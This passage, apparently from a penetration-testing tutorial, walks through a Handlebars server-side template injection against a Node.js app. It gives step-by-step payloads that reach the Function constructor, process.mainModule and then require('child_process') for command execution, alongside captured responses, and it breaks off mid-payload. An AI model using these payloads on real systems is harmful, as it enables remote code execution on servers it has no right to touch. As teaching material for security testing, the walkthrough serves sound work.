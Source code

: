 ```
{{/with}}
```
```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object process]
```

URL encode the payload and send it using the Repeater module as shown previously. The following
response is returned:

No error this time either and we see an extra object at the end of the response, which means the property is
indeed available. Now lets attempt to call require and load a module. We can load the child_process

module as it is available on default Node.js installations and can be used to execute system commands.
Modify the payload as follows:

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule;"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object Object]
```
```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
```